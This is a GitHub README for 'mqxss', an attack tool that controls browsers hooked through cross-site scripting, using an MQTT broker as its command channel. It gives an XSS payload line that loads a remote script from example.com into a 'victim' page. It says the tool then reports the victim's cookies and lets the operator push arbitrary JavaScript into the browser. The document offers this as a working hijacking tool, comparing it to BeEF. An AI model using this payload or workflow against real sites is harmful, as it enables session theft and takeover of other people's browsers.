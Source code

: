 # mqxss


**mqxss acts as a client to communicate with hooked browsers over MQTT**

![Screenshot from 2023-07-03 00-57-22](https://github.com/grampae/mqxss/assets/36344197/72bda6c6-7e27-4269-8bc3-19d7b171a76a)



I created this without a lot of bells and whistles so that the user could send raw JS to the hooked browser.  One might even consider this to be a poor mans BEeF as no server is required, you can use a public broker (however currently uses obfuscation, encryption is in the works).

Currently all that is needed is to set the desired MQTT broker, port and base topic within the x.js file and then connect to the same broker with the client.

Then send your XSS payload to the victim, ex: '"><script src=https://example.com/x.js></script> or something similar, if vulnerable you should get a notification saying the browser has connected with some basic details including cookies etc.  Future version will generate js payload so you don't have to manually set it with broker information.

**Features:**

- **Currently only works with secure websockets however future version will supports mqtts as well.**
- **view hooked browsers**
- **view past hooked (unhooked) browsers**
- **send js to currently hooked browsers and get response if available**

**Todo:**

- [ ] Encryption (currently just obfuscated)
- [ ] Set user , password  for brokers that require it at runtime
- [ ] Generate js payload at runtime to hook browsers with

